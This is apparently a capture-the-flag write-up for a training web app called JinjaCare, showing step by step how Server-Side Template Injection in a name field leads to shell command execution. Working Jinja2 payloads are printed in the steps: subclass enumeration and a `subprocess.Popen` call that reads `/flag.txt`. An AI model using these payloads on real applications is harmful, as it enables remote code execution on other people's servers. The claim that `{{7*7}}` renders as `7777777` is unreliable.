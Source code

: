 # JinjaCare (<font color=green> Very Easy </font>)


## Description
Jinjacare is a web application designed to help citizens manage and access their COVID-19 vaccination records. The platform allows users to store their vaccination history and generate digital certificates. They've asked you to hunt for any potential security issues in their application and retrieve the flag stored in their site.  
📝 Related Bug Bounty Reports  
Bug Report #1 - [RCE via SSTI](https://hackerone.com/reports/125980)  
Bug Report #2 - [SSTI](https://hackerone.com/reports/1104349)


## Tools Used

- Browser Developer Tools (to inspect and test form inputs)

- Jinja2 SSTI payloads

- Custom SSTI enumeration script via templating

## Skills Learned

- Detecting and exploiting Server-Side Template Injection (SSTI)

- Using Jinja2 internals to traverse Python’s object model

- Enumerating Python classes and finding dangerous built-ins like `subprocess.Popen`

## Steps Taken
1. Try Server Side Template Injection on Name parameter `{{7*7}}` and download certificate
2. The SSTI works as the name shows `7777777`
3. Using `{{''.__class__.__mro__[1].__subclasses__()}}` to list of all loaded Python classes and find any useful class.
4. `subprocess.Popen` is available so we can directly run shell commands but first we have to find the index using:  
    ```
    {% for i in range(1, 500) %}
    {{ i }}: {{ ''.__class__.__mro__[1].__subclasses__()[i] }}
    {% endfor %}
    ```
5. `subprocess.Popen` is at index 359. Use this payload to read the flag:  
    ```
    {{''.__class__.__mro__[1].__subclasses__()[359](['cat','/flag.txt'], stdout=-1).communicate()[0].decode()}}
    ```
    This runs cat /flag.txt and outputs the flag content.
